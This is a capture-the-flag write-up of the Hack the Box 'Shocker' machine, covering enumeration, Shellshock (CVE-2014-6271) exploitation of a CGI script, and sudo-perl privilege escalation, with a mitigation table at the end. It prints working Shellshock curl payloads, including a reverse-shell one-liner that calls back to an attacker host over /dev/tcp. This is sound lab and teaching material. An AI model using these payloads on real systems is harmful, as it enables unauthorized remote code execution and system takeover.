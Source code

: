 ```yaml
--- 
title: "Hack the Box (HTB) - Shocker"
description: "Exploiting Shellshock"
date: 2024-07-20 12:00:00 -100
image: /assets/images/HTB - Shocker/HTB - Shocker Thumbnail.png
categories: [CTF]
tags: [shellshock,web application]    # TAG names should always be lowercase
---
```


## Enumeration

Let's start by running a [AutoRecon](https://github.com/Tib3rius/AutoRecon) against our box at `10.10.10.56`

```bash
sudo autorecon 10.10.10.56
```

Check out full TCP scan of the machine, we see the following ports open:

| Port     | State | Service | Reason           | Version                                |
|----------|-------|---------|------------------|----------------------------------------|
| 80/tcp   | open  | http    | syn-ack ttl 63   | Apache httpd 2.4.18 ((Ubuntu))        |
| 2222/tcp | open  | ssh     | syn-ack ttl 63   | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2        |

SSH is on a non standard port, but is irrelevant. Let's check out the apache web server running on port 80

![Apache web server](/assets/images/HTB%20-%20Shocker/Apache%20web%20server.png)

Nothing much here, checking  the source code only reveals bug.jpg which isn't useful

Let's check our dirbuster scan provided to us by autorecon

![Dirbuster](/assets/images/HTB%20-%20Shocker/Shocker%20Dirbuster.png)

Only 200 response on the root directory and bug.jpg.

I decided  to run a `feroxbuster` scan manually to check the directories as well

![CGI-BIN](/assets/images/HTB%20-%20Shocker/CGI%20BIN.png)

We're getting a 403 access denied on cgi-bin/ which is a common directory for web severs to store CGI executable scripts. These scripts are used to generated dynamic content on web servers. Let's run another enumeration on `cgi-bin/` to see what scripts we can find

```bash
feroxbuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl,py,php
```

![User.sh Script](/assets/images/HTB%20-%20Shocker/user.sh.png)

We get a 200 response on this /user.sh script. Let's curl the request to see what we get

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Curl Request](/assets/images/HTB%20-%20Shocker/Curl%20Request.png)

I got stuck here, apparently this directory is vulnerable to an exploit called [Shellshock](https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html#:~:text=Shellshock%2C%20also%20known%20as%20the,to%20a%20Bash%2Dbased%20application.). It's a vulnerability in old versions of Bash that lets attackers send HTTP requests that manipulate variables due to the improper handling of environment variable function

We can run a specific nmap scan against this to ascertain if the target is vulnerable

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![Shocker Nmap](/assets/images/HTB%20-%20Shocker/Shocker%20nmap.png)

Our nmap scans confirms the target is vulernable to [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271) I.E Shellshock

### Exploiting without Metasploit ?

There's a metasploit module that gets us user level access with the click of a button, but let's try exploiting manually for this box

We will use the following curl to make a malicious HTTP request with a specially crafted User-Agent header

```bash
url -H "User-Agent: () { :;}; echo; /bin/bash -c 'whoami'"
```

- `() { :;}:` Defines a function in the User-Agent header (empty)
- `/bin/bash -c 'id'` The command that is executed by the vulnerable bash interpreter

Since this sever is confirmed to be running an outdated version of bash, it will process our user-agent header as a function definition. This happens because bash (**before the shellshock update**) processes the user agent header as a function definition instead of plain text

![Shell Shocked](/assets/images/HTB%20-%20Shocker/Shell%20Shocked.png)

We have RCE. Let's get our shell going. I'll start up my nc listener and perform the following curl request with the reverse shell one liner

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Shell](/assets/images/HTB%20-%20Shocker/Shell.png)

## Privilege Escalation

Running `sudo -l` tells us the following:

- User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

We can run perl commands as root without a password. We can leverage this to execute /bin/sh to spawn a shell. Since we run this as sudo it will spawn a root shell

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh"'` 
```

GG, we've rooted Shocker!

![Rooted](/assets/images/HTB%20-%20Shocker/Root%20Shocker.png)

## Summary

1. Initial Enumeration  discovered a web server
2. Directory Busting  found /cgi-bin/user.sh
3. Nmap Scanning  confirmed vulnerability to Shellshock
4. Curl HTTP Request verified Shellshock exploit
5. Reverse Shell established a connection back to your machine
6. Ran sudo -l to discover sudo rights for usr/bin/perl without a password
7. Used perl to execute /bin/sh as root

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Shellshock (CVE-2014-6271) in CGI scripts  | Update Bash to the latest version. Ensure scripts properly sanitize input.|
| Sudo privilege escalation NOPASSWD | Restrict sudo permissions and require passwords for all commands

### Remediation References

- [Mitre.org - Update Bash to the latest version](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
- [Restrict sudo permissions and require passwords for all commands](https://www.sudo.ws/security.html).